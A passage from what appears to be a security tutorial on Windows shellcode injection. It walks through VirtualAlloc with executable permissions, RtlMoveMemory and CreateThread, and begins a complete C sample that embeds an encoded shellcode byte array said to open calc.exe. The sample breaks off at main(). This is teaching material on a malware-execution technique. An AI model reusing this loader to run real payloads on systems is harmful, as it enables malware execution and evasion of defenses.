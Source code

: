 This shellcode array can be added to our C programs as an array of bytes that holds shellcode (i.e. `unsigned char shellcode[]`) for testing shellcode injection techniques. Then, we create a pointer to any type ( [LPVOID](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types#LPVOID)) ( `lpAlloc`) to allocate the memory equal to the size of the shellcode buffer with executable permissions, such as [PAGE\_EXECUTE\_READWRITE](https://learn.microsoft.com/en-us/windows/win32/memory/memory-protection-constants#PAGE_EXECUTE_READWRITE) using the [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function:

```c
LPVOID lpAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Then, the shellcode is copied from the buffer to the allocated memory region using the [RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory) function:

```c
RtlMoveMemory(lpAlloc, shellcode, sizeof(shellcode));

```

After this call, a new thread is created in the process using the [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) function, and it begins executing the shellcode located at the address specified by `lpAlloc`. The main thread can continue execution independently of the new thread.

```c
HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpAlloc, NULL, 0, NULL);

```

Here, the `(LPTHREAD_START_ROUTINE)lpAlloc` parameter is a pointer to the starting address of the thread. In this case, `lpAlloc` is the address of the allocated memory, which contains the shellcode to be executed. By casting it to `LPTHREAD_START_ROUTINE`, the pointer is converted to the appropriate type for the function. When the thread is started, it will execute the `calc.exe`, and a calculator window will pop up.

The complete code for the sample program to perform shellcode injection is as follows:

```c
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef"
"\xff\xff\xff\x48\xbb\x26\x8f\x41\x8a\x78\x3a\x54\xf2\x48"
"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xda\xc7\xc2"
"\x6e\x88\xd2\x94\xf2\x26\x8f\x00\xdb\x39\x6a\x06\xa3\x70"
"\xc7\x70\x58\x1d\x72\xdf\xa0\x46\xc7\xca\xd8\x60\x72\xdf"
"\xa0\x06\xc7\xca\xf8\x28\x72\x5b\x45\x6c\xc5\x0c\xbb\xb1"
"\x72\x65\x32\x8a\xb3\x20\xf6\x7a\x16\x74\xb3\xe7\x46\x4c"
"\xcb\x79\xfb\xb6\x1f\x74\xce\x10\xc2\xf3\x68\x74\x79\x64"
"\xb3\x09\x8b\xa8\xb1\xd4\x7a\x26\x8f\x41\xc2\xfd\xfa\x20"
"\x95\x6e\x8e\x91\xda\xf3\x72\x4c\xb6\xad\xcf\x61\xc3\x79"
"\xea\xb7\xa4\x6e\x70\x88\xcb\xf3\x0e\xdc\xba\x27\x59\x0c"
"\xbb\xb1\x72\x65\x32\x8a\xce\x80\x43\x75\x7b\x55\x33\x1e"
"\x6f\x34\x7b\x34\x39\x18\xd6\x2e\xca\x78\x5b\x0d\xe2\x0c"
"\xb6\xad\xcf\x65\xc3\x79\xea\x32\xb3\xad\x83\x09\xce\xf3"
"\x7a\x48\xbb\x27\x5f\x00\x01\x7c\xb2\x1c\xf3\xf6\xce\x19"
"\xcb\x20\x64\x0d\xa8\x67\xd7\x00\xd3\x39\x60\x1c\x71\xca"
"\xaf\x00\xd8\x87\xda\x0c\xb3\x7f\xd5\x09\x01\x6a\xd3\x03"
"\x0d\xd9\x70\x1c\xc2\xc2\x3b\x54\xf2\x26\x8f\x41\x8a\x78"
"\x72\xd9\x7f\x27\x8e\x41\x8a\x39\x80\x65\x79\x49\x08\xbe"
"\x5f\xc3\xca\xe1\x50\x70\xce\xfb\x2c\xed\x87\xc9\x0d\xf3"
"\xc7\xc2\x4e\x50\x06\x52\x8e\x2c\x0f\xba\x6a\x0d\x3f\xef"
"\xb5\x35\xfd\x2e\xe0\x78\x63\x15\x7b\xfc\x70\x94\xe9\x19"
"\x56\x37\xdc\x43\xf7\x24\x8a\x78\x3a\x54\xf2";

int main() {
```